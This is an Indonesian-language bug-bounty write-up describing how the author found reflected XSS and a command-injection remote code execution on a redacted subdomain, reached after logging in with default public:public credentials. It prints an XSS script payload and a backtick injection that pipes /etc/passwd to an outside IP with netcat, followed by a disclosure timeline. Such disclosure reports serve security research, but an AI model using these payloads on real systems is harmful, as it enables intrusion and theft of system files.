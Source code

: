 ```yaml
---
layout: post
title: "[Bug Bounty] RCE and XSS On Private Program Cyber Army ID"
date: 2019-02-14
tags: [ "Bug Bounty", "RCE"]
---
```


## Reconnaissance 
Pada tahap reconnaissance,saya menggunakan nmap dengan perintah
`nmap sub.[redacted].id`

Disana terdapat beberapa port yang open, saya tertarik dengan port 8010. Pada saat tulisan ini dibuat saya coba scan lagi ternyata sudah filtered.

 ![](/images/bugbounty/net/1.png)

Saat saya buka sub.[redacted].id:8010, disana terdapat form login yang diketahui credentialnya menggunakan user dan password public:public. Disana terdapat beberapa menu (lupa screenshot). 

## XSS via POST Request
Untuk celah XSS ini berdampak pada 2 fungsi/menu:
- Menu dblist
- Menu dnsbse

Saya tertarik dengan fungsi search yg ada di menu dnsbse, disana ada form search yang merequest google search engine. Saya coba searcing "test", ternyata inputan kita ditampilkan di browser,hmmmm... Langsung terpikir untuk input payload XSS, dengan mengirim payload XSS sejuta ummat `"><script>alert("p00w")</script>` ternyata payload dirender dengan baik.

### POC 
- Script : https://pastebin.com/raw/zZN1pfSY

 ![](/images/bugbounty/net/2.png)


## Remote Code Execution
Masih ingat menu dnsbse? Tadi yang kita bahas kalau fungsi dnsbse juga merequest search engine google dan menampilkan hasilnya disana. Saya kira kalau fungsi dnsbse itu pake curl buat request ke server googlenya,asumsinya kira-kira seperti ini:
`shell_exec('curl {website with request}')`

Saya pikir ini bisa diexploitasi dengan SSRF (Server Side Request Forgery);

 ![](/images/bugbounty/net/3.png)

setelah mencoba beberapa payload SSRF, ternyata zonk wwkwkw `>_<` 
Saya sambil baca-baca referensi, akhirnya ketemu cara bypass stringnya hanya menggunakan backtick, sehingga kita dapat menjalankan perintah shell pada `shell_exec` tadi. 

Saya masukin request ke repeater di burp, lalu saya masukin payload \`cat /etc/passwd | nc XXX.199.221.101 9091\` pada parameter server, dan didapatkan result:

 ![](/images/bugbounty/net/4.png)

 ![](/images/bugbounty/net/5.png)

- 12 February Send Report
- 13 February Validation
- 14 February disclose
- Rewarded


## Reference:
- https://medium.com/@uranium238/getting-a-rce-ctf-way-2fd612fb643f
